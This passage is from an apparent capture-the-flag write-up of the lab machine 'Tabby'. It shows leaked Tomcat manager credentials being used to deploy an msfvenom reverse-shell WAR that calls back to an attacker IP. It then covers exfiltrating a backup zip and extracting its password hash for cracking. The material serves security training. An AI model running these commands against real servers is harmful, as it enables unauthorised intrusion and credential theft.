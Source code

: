 The creds do _not_ work for the `/manager/html` endpoint, however. But it _does_ have role `manager-script`, which allows this:

```console
$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://t:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

It can be used to deploy a malicious WAR file.

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o hax.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: hax.war

$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://t:8080/manager/text/deploy?path=/hax --upload-file hax.war
OK - Deployed application at context path [/hax]
```

And, it works:

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.194] 45100
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Privilege Escalation

With access as `tomcat`, there's a Zip file visible in the `/var/www/html/files` directory:

```console
tomcat@tabby:/var/www/html$ ls files/
16162020_backup.zip  archive  revoked_certs  statement
```

After exfil'ing the archive to my machine, I see it's password-protected. I use `zip2john` to grab the hash, and crack it with `hashcat`.

```console
$ cat tabby.ziphash
$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::foo.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:foo.zip
```
